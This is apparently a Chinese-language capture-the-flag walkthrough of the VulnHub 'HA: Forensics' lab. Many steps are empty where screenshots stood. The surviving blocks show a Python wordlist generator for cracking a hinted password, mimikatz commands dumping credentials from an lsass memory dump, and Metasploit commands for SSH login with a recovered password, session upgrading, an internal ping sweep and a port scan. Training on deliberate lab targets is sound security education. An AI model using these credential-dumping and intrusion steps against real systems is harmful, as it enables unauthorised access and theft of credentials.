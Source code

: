 # 原创
：  VulnHub渗透测试实战靶场-HA: FORENSICS

# VulnHub渗透测试实战靶场-HA: FORENSICS

#### VulnHub渗透测试实战靶场-HA: FORENSICS

## 题目描述

```
HA: Forensics is an intermediate level of the lab, which gives you a hand on real-life experience in Cyber Forensic Investigation. This lab is completely dedicated to methods and tools of Cyber Forensic Investigation and there is evidence that can be found with various techniques. As it is a Capture-the-Flag, it is very important to note that it is not a root challenge, and comes with a primary motive to find all the flags.

No. of Flags: 4

Objective: Find all 4 flags (Getting Root is NOT the objective)

```

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/ha/forensics.ova)


## HA: FORENSICS靶机搭建

> 
将下载好的靶机环境，导入VMware，将其网络适配设置为`NAT`模式，运行即可


## 渗透测试

### 信息搜集

> 



> 



> 



### Flag获取

#### Flag-1

> 



> 



#### Flag-2

> 



> 



```
In case the forensic investigator forgets his password, this hint can help him, where the password is of 6 characters long , starting  3 characters is the word  "for" and the ending 3 characters are numeric

```

> 



```
f = open(r'./passwd.txt','a')
for i in range(0,1000):
    if len(str(i)) &lt; 2:
        print('for00' + str(i),file=f)
    elif len(str(i)) &lt; 3:
        print('for0' + str(i),file=f)
    else:
        print('for' + str(i),file=f)

```

> 



#### Flag-3

> 



```
mimikatz # sekurlsa::minidump lsass.dmp

mimikatz # sekurlsa::logonPasswords full

```

> 



```
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.246.142
set username jasoos
set password Password@1
exploit

```

> 



```
sessions -l
sessions -u 1
sessions -l
sessions 2

```

> 



> 



```
set session 3
exploit
use post/multi/gather/ping_sweep
set session 3 
set rhosts 172.17.0.0/24
exploit

```

> 



```
use auxiliary/scanner/portscan/tcp
set rhosts 172.17.0.2
set ports 1-2000
exploit

```

> 



> 



#### Flag-4

> 



> 


